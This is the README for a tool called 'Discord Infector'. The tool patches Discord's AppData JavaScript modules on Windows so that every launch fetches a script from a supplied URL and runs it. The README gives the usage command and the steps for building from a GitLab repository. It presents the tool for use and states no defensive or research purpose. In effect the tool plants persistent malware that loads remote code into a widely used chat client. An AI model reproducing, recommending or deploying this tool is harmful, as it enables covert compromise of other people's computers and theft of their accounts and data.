 # Discord Infector

This tool allows you to modify some of Discord's data files on Windows to run arbitrary code every time Discord is launched.

## Usage

You can download the release binary from releases and use it with `.\DiscordInfector.exe https://example.org/examplescript.js`
This will attempt to patch one of your Discord AppData Javascript modules to execute a file that will attempt to grab the script at the specified address and execute it.


## Building

To build the tool yourself, you will need the following installed:
- NodeJS 10+
- NPM or an NPM compatible package manager
- pkg

pkg can be installed with `npm install -g pkg`.

The steps to build the tool are as followed.
1. `git clone https://gitlab.com/NickCopi/discord-infector.git`
2. `cd discord-infector`
3. `npm install`
4. `npm run build`

The resulting build will be at `DiscordInfector.exe`.
If you would like to run it without building it you can run `node index.js https://example.org/examplescript.js`.

